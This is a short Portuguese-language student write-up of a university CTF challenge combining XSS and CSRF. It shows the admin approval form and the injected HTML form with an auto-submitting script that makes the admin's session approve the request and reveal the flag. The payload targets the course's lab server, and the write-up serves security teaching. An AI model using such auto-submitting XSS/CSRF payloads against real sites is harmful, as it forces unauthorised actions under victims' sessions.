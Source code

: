 # Trabalho realizado na Semana #6
## XSS + CSRF CTF
Começamos por entrar no site e instantaneamente nos deparamos com informação que vamos precisar de usar mais tarde, o id da request que vai ser realizada.
Com esta informação em mente, inserimos um texto qualquer no input para ver onde nos levaria e após alguns cliques chegamos a http://ctf-fsi.fe.up.pt:5005, a página onde o admin realiza a avaliação dos inputs.
Após analisarmos o código da página, descobrimos que o código usado para o botão Give The Flag é o seguinte, em que (id) representa o id da  request:
```<form method="POST" action="request/(id)/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disable="">
        
    </div>
</form>```
Utilizando este código juntamente com algum conhecimento de javascript fizemos o seguinte código que após ler a parte de javascript submete o form e nos dará a flag do desafio:
```<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/(id)/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag">
        
    </div>
    <script>
        document.forms[0].submit();
    </script>
</form>```
Inserindo este código na zona de input após termos desativado a permição de usar javascript do site, para evitar sermos redirecionados para uma página à qual não temos acesso, somos então redirecionados para a página de avaliação do input, na qual ainda não está presente a flag devido ao site não ter atualizado por não ter acesso a javascript. Após um reload rápido, a flag que pretendiamos obter está presente no topo da página.
